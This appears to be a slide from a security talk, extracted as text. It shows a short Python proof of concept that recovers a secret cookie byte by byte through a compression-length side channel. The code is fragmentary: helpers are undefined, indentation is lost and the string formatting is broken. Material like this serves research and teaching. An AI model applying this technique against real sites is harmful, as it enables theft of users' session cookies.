

# 16K-1 POC
def next_byte(cookie, known, alphabet=BASE64):
candidates = list(alphabet)
while len(candidates) != 1:
url = random_16K_url(known)
record_lens = query(url)
length = record_lens[0]
record = "GET /%s%s%s" (url, REQ, known)
	good = []
for c in candidates:
if len(compress(record + c)) == length:
good.append(c)
candidates = good
return candidates[0]